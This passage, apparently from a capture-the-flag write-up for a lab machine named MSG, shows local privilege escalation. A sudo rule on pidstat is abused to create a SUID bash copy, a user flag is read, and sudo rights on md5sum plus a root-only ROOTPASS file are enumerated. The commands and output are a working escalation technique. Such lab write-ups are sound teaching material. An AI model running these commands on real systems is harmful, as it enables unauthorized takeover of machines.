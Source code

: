 I used `pidstat` to create a SUID shell for `messagemaster`:

```shellscript
www-data@MSG:/tmp$ sudo -u messagemaster /bin/pidstat -e bash -c 'cp /usr/bin/bash /tmp/wmbash && chmod 4755 /tmp/wmbash'
Linux 5.10.0-19-amd64 (MSG)     07/23/25        _x86_64_        (4 CPU)
14:42:31      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
14:42:31     1000       851    0.00    0.00    0.00    0.00    0.00     2  pidstat
www-data@MSG:/tmp$ ls -la
total 1216
drwxrwxrwt  2 root          root             4096 Jul 23 14:42 .
drwxr-xr-x 18 root          root             4096 Nov 12  2022 ..
-rwsr-xr-x  1 messagemaster messagemaster 1234376 Jul 23 14:42 wmbash
```

Now, I could execute `/tmp/wmbash` to get a shell as `messagemaster`:

```shellscript
www-data@MSG:/tmp$ ./wmbash -p
wmbash-5.1$ id
uid=33(www-data) gid=33(www-data) euid=1000(messagemaster) groups=33(www-data)
```

I successfully escalated privileges to `messagemaster`. In `messagemaster`'s home directory, I found `User.txt`:

```shellscript
wmbash-5.1$ cd /home/messagemaster
wmbash-5.1$ cat User.txt
ea86091a17126fe48a83c1b8d13d60ab
```

This is the first flag.

### 4. Privilege Escalation to `root`

As `messagemaster`, I checked `sudo` privileges again:

```shellscript
messagemaster@MSG:/var/www$ sudo -l
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

This showed that `messagemaster` could run `/bin/md5sum` as `ALL` (any user, including root) without a password.

I found a file named `ROOTPASS` in `/var/www`:

```shellscript
messagemaster@MSG:/var/www$ ls -l
total 16
drwxr-xr-x  3 root     root     4096 Nov 21  2022 .
drwxr-xr-x 12 root     root     4096 Nov 20  2022 ..
-rw-r-----  1 root     root       12 Nov 21  2022 ROOTPASS
drwxrwxr--  5 www-data www-data 4096 Nov 18  2022 html
```
